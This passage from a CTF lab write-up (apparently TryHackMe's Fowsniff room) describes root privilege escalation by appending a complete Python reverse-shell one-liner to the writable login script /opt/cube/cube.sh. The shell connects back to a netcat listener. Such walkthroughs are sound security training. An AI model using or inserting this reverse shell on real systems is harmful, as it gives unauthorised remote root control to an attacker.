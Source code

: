- `/opt/cube/cube.sh` this is the file that is used for privilege escalation.

---

## 👑 Root Privilege Escalation

- There is not much to say in regards to this, challenge already explained everything through walkthrough. You just edit the `cube.sh` file by adding the Python reverse shell.

  ```
  baksteen@fowsniff:~$ nano /opt/cube/cube.sh
  printf "
                              _____                       _  __  __  
        :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
     :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
  .sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
  -:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
  -:      y.      dssssssso                ____                      
  -:      y.      dssssssso               / ___|___  _ __ _ __        
  -:      y.      dssssssso              | |   / _ \| '__| '_ \     
  -:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
  -:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
  -:    .+mdddddddmyyyyyhy:                              |_|        
  -: -odMMMMMMMMMMmhhdy/.

  python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<YOUR-THM-IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'   
  ```
  
- Save the file and exit SSH. Start a listener on your Kali `nc -lvnp 1234` and login again with SSH. You should have root shell on your listener.

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `/`

- What did I learn?
  `It's a walkthrough room, and I already did some Vulnhub labs in the past...`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
